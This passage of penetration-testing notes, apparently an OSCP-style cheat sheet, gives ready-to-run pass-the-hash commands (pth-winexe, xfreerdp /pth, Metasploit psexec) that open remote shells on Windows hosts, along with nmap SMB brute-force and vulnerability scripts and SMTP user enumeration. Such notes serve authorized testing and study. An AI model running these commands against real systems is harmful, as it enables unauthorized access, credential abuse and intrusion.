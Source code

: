 ##### pth-winexe
Works great sometimes. Can open a windows cmd shell.
```sh
pth-winexe -U administrator%WIN20082017 //192.168.1.23 cmd # using a plaintext password
pth-winexe -U Administrator%A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # ntlm hash encrypted with https://www.browserling.com/tools/ntlm-hash
pth-winexe -U domain/user%A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # domain user
pth-winexe -U Administrator%8F49412C8D29DF02FB62879E33FBB745:A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # lm+ntlm hash encrypted with https://asecuritysite.com/encryption/lmhash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:A433F6C2B0D8BB92D7288ECFFACFC7CD //192.168.1.23 cmd # ntlm hash + empty lm hash
# or
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
pth-winexe -U Administrator% //192.168.1.23 cmd
```

##### psexec Metasploit
`exploit/windows/smb/psexec`

##### xfreerdp Remote Desktop Protocol
Before using `xfreerdp`'s `/pth` feature, you have to build and install latest version. Apparently updating and upgrading with `apt-get install freerdp-x11` only gets you `FreeRDP version 1.1.0-beta1`. The latest already 2+. Source and compilation guide: https://nullsec.us/rdp-sessions-with-xfreerdp-using-pth/ Still does not work after updating though.
```sh
xfreerdp /u:testing /d:thinc /pth:31d6cfe0d16ae931b73c59d7e0c089c0 /v:192.168.1.23
```

### Nmap SMB NSE Scripts
* List all smb nse scripts - `ls -la /usr/share/nmap/scripts/smb*`
* Check smb and OS using nse script - `nmap -p 139,445 --script=smb-os-discovery 192.168.1.23`
* Check certain smb vulnerability against all hosts - `nmap -iL hosts -Pn -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1`
* Enumerate smb usernames (similar to `enumdomusers` with `rpcclient`) - `nmap -p 139,445 --script=smb-enum-users [ip]`
* Brute force smb creds - `nmap -p 139,445 --script=smb-brute [ip]`
* Check many common smb vulnerabilities against a host - `nmap -p 139,445 --script=smb*-vuln* --script-args=unsafe=1 [ip]`

Apparently if there are more than 10 hosts in the hosts input file, nmap won't scan them when using NSE.

Nmap removed the `smb-check-vulns` script with individual scripts: https://forums.offensive-security.com/showthread.php?4008-04-3-3-Changes-to-quot-Nmap-NSE-Scripts-quot

Vulscan is a NSE scripting module that enhances nmap and turns it into a vulnerability scanner: https://github.com/scipag/vulscan

## SMTP Enumeration
Important commands include:
* `VRFY` - Asks the server to verify an email address
* `EXPN` - Asks the server for the membership of a mailing list
